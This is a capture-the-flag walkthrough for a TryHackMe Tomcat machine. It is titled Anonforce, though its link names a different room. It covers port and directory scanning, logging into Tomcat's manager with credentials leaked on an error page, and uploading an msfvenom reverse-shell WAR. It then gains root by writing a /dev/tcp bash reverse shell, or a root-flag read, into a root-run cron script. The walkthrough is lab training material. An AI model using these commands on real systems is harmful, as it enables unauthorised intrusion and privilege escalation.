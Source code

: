 # [Anonforce TryHackMe Writeup/Walkthrough][1]

boot2root machine for FIT and bsides guatemala CTF

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.9.253
Host is up (0.067s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```

Seems like we have server running on `port 8080`. The website has nothing interesting. So I ran `gobuster` scan.

Command -> `gobuster dir -u http://<IP>:8080 -w /usr/share/wordlists/dirb/common.txt -x txt,html,php`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.198.171:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2021/05/16 16:48:41 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]     
===============================================================
2021/05/16 16:50:47 Finished
===============================================================
```

I checked `/manager` and `/host-manager` they both required password. On `/manager`, I tried `admin:admin`. It didn't work and gave me an error with some useful information.

![Password](images/manager_password.png)
> Seems like we have username and password.

Refresh the page and login using this credentials. BAAM! We have the access. Did some recon and found a useful article on [Ways to Exploit Tomcat Manager][3].

We can upload `war` shell and get the access. To create reverse shell, use `msfvenom`.

Command -> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f war > shell.war`.

![War Shell](images/war_shell.png)

You we can upload this file into `WAR` section and deploy the file.

![Upload Shell](images/war_website.png)


The page will reload and you will see the path for shell.

![Shell Location](images/shell.png)

Start a listener using `netcat`. Command -> `nc -lvnp 4444`. Go to the site `http://<IP>:8080/shell`.

You will see a connection established.

![Got Connection](images/got_connection.png)
> Now we have access as *tomcat*.

We can easily get the user flag from the home directory.

![User Flag](images/user_flag.png)

### Privilege Escalation

There is one more file `id.sh` in the user directory.

![Files](images/files_user.png)

`id.sh` is running `id` command and writing the content in `test.txt`. The content of `test.txt` seems like `root` user's ID.

That means this file is running as `root` and fortunately we have write permissions to this file. We can simply edit this file and can get the root flag/access.

#### Method 1: Get Root Access

To get the root access. We can add one liner bash shell command. To do this -> `echo "bash -i >& /dev/tcp/<YOUR_IP/4445 0>&1" > id.sh`.

Also, start a listener -> `nc -lvnp 4445`. Wait for a while you will get the access. It may take sometime to get the connection depending on `cronjob` settings.

You know what to do next :stuck_out_tongue_winking_eye:

#### Method 2: Get Root Flag Directly

To get the root flag. We can simple type -> `echo "cat /root/root.txt > test.txt" > id.sh`. As we already know the location of the file. We can simply print the content of the file to the terminal and redirects the output to `test.txt` file.

![Exploit Code](images/exploit.png)

Check the content of the `test.txt` file. If may take sometime.

![Root Flag](images/root_flag.png)


[1]: https://tryhackme.com/room/bsidesgtthompson
[2]: https://www.hackhunt.in/search/label/Nmaps
[3]: https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
